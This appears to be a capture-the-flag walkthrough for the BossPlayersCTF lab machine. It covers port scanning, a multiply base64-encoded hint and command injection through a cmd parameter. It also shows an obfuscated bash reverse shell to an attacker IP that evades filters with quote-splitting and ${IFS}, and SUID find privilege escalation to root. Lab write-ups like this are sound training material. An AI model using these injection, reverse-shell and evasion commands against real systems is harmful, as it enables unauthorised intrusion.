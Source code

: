 # BossPlayersCTF

## Nmap

```
sudo nmap 192.168.152.20 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 shows the following page.

![](<../../../.gitbook/assets/image (1226).png>)

Viewing the source code of this page reveals text at the end.

```
WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK
```

We can take this string and run it through base64. We need to perform this three times to reveal a plain text string.

```
echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
echo 'ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K' |  base64 -d
echo 'd29ya2luZ2lucHJvZ3Jlc3MucGhwCg==' |  base64 -d
```

![](<../../../.gitbook/assets/image (1227).png>)

Browsing to workingprogress.php:

![/workingprogress.php](<../../../.gitbook/assets/image (1228).png>)

Looking at the comment regarding ping we can take a guess for command injection on the current page. Appending ?cmd=(command) generates results.

![](<../../../.gitbook/assets/image (1229).png>)

To create a reverse shell run the following command in a terminal:

```
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
```

Then take the base64 output and run it as a command in the web browser.

```
http://192.168.152.20/workinginprogress.php?cmd=echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqRTFNaTg0TUNBd1BpWXhDZz09Cg==|ba%27%27se%27%276%27%274${IFS}-%27%27d|ba%27%27se%27%2764${IFS}-%27%27d|b%27%27a%27%27s%27%27h
```

This will create a reverse shell connection on our `netcat` listener.

![](<../../../.gitbook/assets/image (1230) (1).png>)

I then transferred `linpeas` over from my attacking machine. Shortly after running linpeas finds that the binary 'find' has the SUID bit set.

Checking this against [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) shows we can use this to gain a root shell.

![](<../../../.gitbook/assets/image (1231).png>)

Run the following command to spawn a root shell:

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![](<../../../.gitbook/assets/image (1232).png>)

